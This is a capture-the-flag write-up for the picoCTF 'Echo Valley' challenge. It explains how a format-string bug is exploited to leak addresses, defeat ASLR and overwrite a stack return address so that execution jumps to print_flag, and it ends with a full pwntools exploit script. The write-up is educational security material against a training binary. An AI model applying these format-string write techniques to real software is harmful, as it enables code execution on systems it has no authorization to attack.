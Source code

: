 # Description

The echo valley is a simple function that echoes back whatever you say to it.But how do you make it respond with something more interesting, like a flag?Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)

Additional details will be available after launching your challenge instance.

# Solution

Reviewing the code for this one it seems we are dealing with a format string vulnerability, however this will require a series of steps to gain RCE since this binary is fortified with some protections like stack canary, pic, relro and NX.

```c
printf("You heard in the distance: ");
printf(buf);
```

Since we are inside an infinite loop, we can have unlimited arbitrary reads and writes, and the plan will be something similar to:

1. Get a leak to bypass ASLR
2. Calculate the real address of print_flag
3. Overwrite something to get RCE and redirect execution to print_flag

## Getting a reliable leak

First as explained in [[PIE Time 2]] we can use a string format vulnerability to get an arbitrary read from memory, after debugging the binary we noticed that in position 21 we get a leak to a return address in the stack.

![[Pasted image 20250307144913.png]]

This matches the address for main+18.

![[Pasted image 20250307144929.png]]

We send a string format with that position using the shouting function and judging by the 12 LSB we are getting the same offset.

![[Pasted image 20250307145038.png]]

## Calculating the real address of print_flag

Now that we have a leak we just need to know the offset of main we are getting as a return address, according to radare2 this is at offset 0x1413.

![[Pasted image 20250307145240.png]]

We can calculate the base address for the valley binary and get the address of the print_flag function by adding its offset.

![[Pasted image 20250307145356.png]]

## Arbitrary write to gain code execution
One neat thing about format string vulnerabilities is that you can also perform arbitrary writes anywhere in memory (of course taking into consideration NX). Now that we have a foothold, we can start looking for feasible addresses to overwrite to gain RCE, one of the obvious ones is to use the GOT and PLT tables, unfortunately this binary was built with full RELRO meaning that the GOT table is ready only. 

Since that is not possible we are going to try to overwrite a return address in the stack directly, this however posses another challenge: we don't know the address range of the stack ... yet!

Checking the stack during execution time in GDB reveals something similar to the following layout.

![[Pasted image 20250307170124.png]]

It seems we leak several addresses of the stack but the one we are interested is the one before our return address at 0x7ff3ac7e08, this return address if followed by a value 0x2 in the stack, we were able to replicate the same behavior in a second execution ...

![[Pasted image 20250307170945.png]]

We use the same technique as our first step and discover that a stack address is leaked in position 20.

![[Pasted image 20250307171004.png]]

Now we almost have all the pieces we need to gain code execution, one thing we still need to sort out is the limited buffer of just 100 chars, this means we can't write big values such as the one required for 64 bits since printf uses the total number of bytes printed.

To get around this we are going to overwrite 2 bytes at a time, in the next image we see the return address changed to print_flag.


![[Pasted image 20250307183234.png]]

Once we redirect execution we are able to get the flag ...

![[Pasted image 20250307183601.png]]

Full py script ...

```python
#!/usr/bin/python
# -*- coding: latin-1 -*-

from pwn import *
import sys

def send_payload(payload):
    r.sendline(payload)
    return r.recvall()

def hunt():
  r.recvuntil(b'Welcome to the Echo Valley, Try Shouting: \n')
  r.sendline("%21$p") #25
  r.recvuntil(b'You heard in the distance: ')
  leak = r.recvline().decode().rstrip('\n')
  win_offset = int(leak,16)-0x1aa
  last_bytes = win_offset & 0xffff
  print('{:#x}'.format(win_offset))
  print('{:#x}'.format(last_bytes))
  r.sendline("%20$p") #25
  r.recvuntil(b'You heard in the distance: ')
  leak = r.recvline().decode().rstrip('\n')
  stack_leak = int(leak,16)-0x8
  print('{:#x}'.format(stack_leak))
  context.clear(arch = 'amd64')
  payload = fmtstr_payload(6, {stack_leak: last_bytes}, write_size='byte')
  r.sendline(payload)
  win_offset = win_offset >> 16
  print('{:#x}'.format(win_offset))
  last_bytes = win_offset & 0xffff
  print('{:#x}'.format(last_bytes))
  payload = fmtstr_payload(6, {stack_leak+0x2: last_bytes}, write_size='byte')
  r.sendline(payload)
  win_offset = win_offset >> 16
  print('{:#x}'.format(win_offset))
  last_bytes = win_offset & 0xffff
  print('{:#x}'.format(last_bytes))
  payload = fmtstr_payload(6, {stack_leak+0x4: last_bytes}, write_size='byte')
  r.sendline(payload)

if __name__ == '__main__':
  context.terminal = ['tmux','splitw','-v']

  binary="./valley"
  host, port = "localhost 50959".split()

  if len(sys.argv) > 1:
    r = remote(host,int(port))
  else:
    log.info("For remote: %s remote" % sys.argv[0])
    r = gdb.debug([binary,b'AAAAAAAA'],gdbscript=script, env={"LD_PRELOAD":""})
  hunt()
  ```
  